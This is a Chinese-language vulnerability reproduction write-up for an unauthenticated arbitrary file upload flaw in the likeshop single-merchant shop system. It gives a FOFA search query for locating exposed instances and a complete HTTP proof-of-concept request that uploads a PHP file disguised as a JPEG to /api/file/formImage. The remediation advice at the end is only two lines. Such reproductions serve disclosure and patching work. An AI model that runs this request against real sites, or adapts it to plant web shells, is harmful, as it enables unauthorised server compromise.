 
# likeshop 单商户商城系统 任意文件上传漏洞复现

### 0x01 产品简介

   likeshop 单商户标准商城系统适用于 B2C、单商户、自营商城场景。完美契合私域流量变现闭环交易使用。系统拥有丰富的营销玩法，强大的分销能力，支持电子面单和小程序直播等功能。无论运营还是二开都是性价比极高的 100% 开源商城系统。

### 0x02 漏洞概述

  likeshop 单商户标准商城系统/api/file/formImage 接口存在任意文件上传漏洞，由于系统对用户上传的文件类型未作任何过滤和限制，未授权的攻击者可以通过此接口上传恶意后门文件获取服务器信息或权限。

### 0x03 复现环境

FOFA：icon\_hash="874152924" && body="/pc/"

![f352cfeb763d4e9ea2712c0bde26ed8c.png](assets/1700701060-4849f1d854805759b0936522152b615f.png)

### 0x04 漏洞复现

PoC

```cobol
POST /api/file/formImage HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

![bc5be63a383f4772a14aa75cc377dde9.png](assets/1700701060-bc738e0487d7ae876b190c16a9bbd5a4.png) 验证

![d1e3310439b74a3ab8914c2ffd5f1703.png](assets/1700701060-2e7b5f2a9024ccd9fcc7d09eeef59757.png)

### 0x05 修复建议 

关闭互联网暴露面，上传模块设置白名单限制或过滤

升级至安全版本
